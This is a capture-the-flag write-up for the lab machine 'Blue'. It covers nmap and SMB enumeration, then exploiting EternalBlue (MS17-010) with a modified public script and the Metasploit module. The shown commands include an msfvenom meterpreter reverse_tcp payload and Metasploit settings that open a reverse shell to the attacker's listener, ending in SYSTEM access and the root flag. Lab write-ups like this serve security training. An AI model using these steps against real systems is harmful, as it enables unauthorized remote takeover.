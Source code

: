 # Blue

First let's start our initial recon by using nmap.&#x20;

`nmap -sC -sV {target}`

It looks like this machine is running the following services:

* **135/tcp (msrpc)**: Microsoft Remote Procedure Call (RPC) - often used for various Windows services.
* **139/tcp (netbios-ssn)**: NetBIOS Session Service - used for file and printer sharing.
* **445/tcp (microsoft-ds)**: Microsoft Directory Services - also related to file and printer sharing, commonly used for SMB (Server Message Block) communications.
* **49152-49157/tcp (msrpc)**: Additional RPC ports that may be used for various Windows services or applications.

A couple of interesting things come up when running the scan

1. **Message Signing Disabled**: Without message signing, data integrity is compromised, making the system vulnerable to man-in-the-middle attacks where attackers can intercept or alter messages without detection.
2. **Guest Account Usage**: Allowing guest access can expose the system to unauthorized users, enabling them to exploit resources and potentially gain further access to sensitive information.
3. **Outdated OS**: Running an unsupported OS like Windows 7 means the machine no longer receives security updates, leaving it vulnerable to known exploits and increasing the risk of successful attacks.
4. **Clock Skew**: Significant clock skew can cause authentication mechanisms to fail, leading to unauthorized access or disruptions in service due to time-sensitive operations being incorrectly validated.
5. **Default Settings**: Relying on default settings indicates a lack of security hardening, which makes the system an easier target for attackers who can exploit common vulnerabilities associated with these configurations.

After running smbclient -L //10.10.10.40 -U guest we see a couple of available shares remotely. Includeing an Admin share. This is interesting.&#x20;

<figure><img src="../../.gitbook/assets/image (14).png" alt=""><figcaption></figcaption></figure>

For fun, we can also use a tool called smbmap.

{% embed url="https://github.com/ShawnDEvans/smbmap" %}

<figure><img src="../../.gitbook/assets/image (15).png" alt=""><figcaption></figcaption></figure>

We can try default credentials to login into the remote admin share.&#x20;

After trying default credentials, we are not able to break in. Next let's try to access the Users share.



It is well known that the EternalBlue exploit uses the IPC share to gain access to a root shell.&#x20;

{% embed url="https://www.exploit-db.com/exploits/42315" %}

Clone the following repository to use the exploit on the SMB server.&#x20;

{% embed url="https://github.com/worawit/MS17-010" %}

cd into the directory, and we have to edit the file using a text editor of your choice.&#x20;

<figure><img src="../../.gitbook/assets/image (16).png" alt=""><figcaption></figcaption></figure>

Add \\\ in the username field, this will work because the SMB server is running on a default configuration.

Another modification is needed for the script inside teh "smb\_pwn" function, by default the python script only creates a text file in the root of the drive. We can add a couple lines to execute a target command and acheive RCE. We can create a binary using the following command:

msfvenom -p windows/meterpreter/reverse\_tcp lhost=\<lhost> lport=\<lport> -f exe > writeup.exe

**Meterpreter Reverse TCP** is a type of payload used in penetration testing, particularly within the Metasploit Framework. It establishes a reverse connection from a compromised target back to the attacker's machine, allowing for remote control and interaction with the target system.



Having troubles with this script as there are issues with concatenation. Going to try a new script in Metasploit.&#x20;



msf6 > search eternalblue

msf6 > use exploit/windows/smb/ms17\_010\_eternalblue\
\[\*] No payload configured, defaulting to windows/x64/meterpreter/reverse\_tcp\
msf6 exploit(windows/smb/ms17\_010\_eternalblue) >

msf6 exploit(windows/smb/ms17\_010\_eternalblue) > set RHOSTS 10.10.10.40 RHOSTS => 10.10.10.40\
msf6 exploit(windows/smb/ms17\_010\_eternalblue) >

msf6 exploit(windows/smb/ms17\_010\_eternalblue) > set PAYLOAD windows/x64/meterpreter/reverse\_tcp\
PAYLOAD => windows/x64/meterpreter/reverse\_tcp msf6 exploit(windows/smb/ms17\_010\_eternalblue) >

msf6 exploit(windows/smb/ms17\_010\_eternalblue) > set LHOST 10.10.14.2 LHOST => 10.10.14.2 msf6 exploit(windows/smb/ms17\_010\_eternalblue) >

<figure><img src="../../.gitbook/assets/image (17).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (18).png" alt=""><figcaption></figcaption></figure>

The reverse shell has been acheived. I we run getsystem, we can see that we are already running at the highest level priviliges possible.&#x20;

Running a simple search -f root.txt command we can grab the root flag.&#x20;

Run shell, cd to the directory.&#x20;

type root.txt

<figure><img src="../../.gitbook/assets/image (19).png" alt=""><figcaption></figcaption></figure>
